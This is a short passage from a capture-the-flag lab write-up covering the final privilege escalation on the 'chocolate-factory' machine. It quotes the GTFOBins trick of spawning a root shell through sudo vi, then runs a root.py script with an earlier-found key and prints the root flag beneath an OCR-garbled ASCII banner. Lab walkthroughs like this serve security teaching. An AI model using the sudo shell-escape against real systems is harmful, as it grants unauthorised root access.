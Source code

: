 For priv escaltion : Source GTFO Bin

```
sudo vi -c ':!/bin/sh' /dev/null
```

\======================================================================== charlie@chocolate-factory:/opt$ sudo vi -c ':!/bin/sh' /dev/null

## whoami

root

we got the root access

Naviaget to /root There is a root.py lets run this file It is asking for a key Remember we got a key earlier lets try that key

## python root.py

Enter the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

***

\ \ / /\_\_ \_ \_ / \ \_ \_\_ \_\_\_ | \ | | \_\_\_\_\_ \_\_ |\_ _| |_\_ \_\_\_ \ V / \_ | | | | / \_ \ | '**/ \_ \ | | |/ \_ \ \ /\ / / | | | '\_ \ / \_**\
**| | (**_**) | |**_**| | / \_\_\_ | | | / | |\ | (**_**) \ V V / | | | | | | \_\_/ |**_**|\_/ \_**_**,**_**| /\_/ \_\_| \_**| |_| \_|\_\_\_/ \_/\_/ |_| |_| |_|\_\_\_|

***

/ \_ \_\_ \_\_\_ \_\_ \_\_\_ \_ \_\_ / \_ \ / _| | | | \ \ /\ / / '_ \ / \_ \ '**| | | | | |\_**\
**| |**_**| |\ V V /| | | | \_\_/ | | |**_**| | \_| \_**/ \_/\_/ |_| |_|\_**|\_| \_**/|\_|

***

/ _**| |** \_\_\_ \_\_\_ \_\_\_ | | \_\_ | | \_\_\_ | | | '_ \ / \_ \ / **/ \_ | |/ **_**\` | / \_**_\
_**| |**_**| | | | (**_**) | (**_**| (**_**) | | (**_**| | || / \_**_**|**_**| |\_|\_**/ \_**\_**/|_|\__,_|\__\_\_\_|

***

\| _**|**_** \_ **_**| | \_\_\_ \_ \_\_ \_ \_**_\
_**| | / \` |/ | / \_ | '| | | | | | (| | (| || () | | | |**_**| | |**_**| \_**_**,\_|\_**|\__\_\_\_/|_| \__, | |_\_\_/

flag{cec59161d338fef787fcb4e296b42124}

We got our root flag
